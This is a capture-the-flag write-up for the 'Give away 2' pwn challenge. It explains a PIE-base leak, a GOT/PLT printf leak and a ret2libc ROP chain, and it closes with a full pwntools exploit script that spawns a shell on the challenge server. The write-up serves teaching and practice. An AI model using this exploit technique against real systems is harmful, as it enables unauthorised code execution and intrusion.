 # Give away 2

We again get their libc version. It gives us a leak, but this time it begins with `0x56`, so likely something in the binary. If we step through in a debugger again, we find the program actually gives us the address of main. This lets us calculate the binary base.

We're going to need to use the libc somehow, so we can use the PLT and the GOT to leak a libc address.

Because the GOT is inside of the binary itself and is a table of libc addresses, if we can read the GOT we can read a libc address.

Meanwhile, the PLT is also inside of the binary. The PLT has a bunch of stubs, allowing us to call a libc function without it's address.

printf is called before we input. So it's GOT entry will contain it's libc address.

Thus, we can call printf on printf in got to leak printf's address, subtract appropriately to get the libc base, and then do what we did last time. in 64-bit, arguments are in rdi, then rsi, then rdx, etc. We need a pop rdi gadget in order to call `system("/bin/sh")`. The gadget would essentially be a piece of code within the binary that does `"pop rdi ; ret"`, popping the next value off the stack into rdi and then returning to the next return address.

So our exploit must:

* Use address of main to get binary base and address of gadgets and GOT and PLT
* call printf on printf in got to leak it's address \(and call vuln afterwards so we get another input\)
* Use this to calculate libc base and address of other things we want
* On second input, do `padding + pop rdi + address of /bin/sh + address of system`

  ```python
  from pwn import *
  import re
  NUM_TO_RET = 0x20 + 8
  padding = b'A' * NUM_TO_RET
  poprdi = 0x0000000000000903 # pop rdi ; ret
  e = ELF("./give2")
  libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if sys.argv[1] == "local" else "libc-2.27.so")
  p = e.process() if sys.argv[1] == "local" else remote('sharkyctf.xyz', 20335)
  output = p.recvline().decode()
  main = int(re.findall("Give away: (.*)", output)[0], 16)
  base = main - e.symbols['main']
  e.address = base
  log.info(f"Main: {hex(main)}")
  log.info(f"Binary base: {hex(e.address)}")
  poprdi += base
  leak = flat(padding, poprdi, e.got['printf'], e.plt['printf'], e.symbols['vuln'], word_size=64)
  pause()
  #p.sendline(padding + p64(main))
  p.sendline(padding + p64(e.symbols['vuln']))
  #p.recvline()
  p.sendline(leak)
  #output = p.recvuntil("G")[:-1]
  output = p.recv()
  #p.recvline()
  output += b'\x00' * (8 - len(output))
  printf = u64(output)
  libcbase = printf - libc.symbols['printf']
  log.info(f"Printf: {hex(printf)}")
  log.info(f"Libc base: {hex(libcbase)}")
  libc.address = libcbase
  payload = flat(padding, poprdi, next(libc.search(b"/bin/sh\x00")), libc.symbols['system'], word_size=64)
  p.sendline(payload)
  p.interactive()
  ```

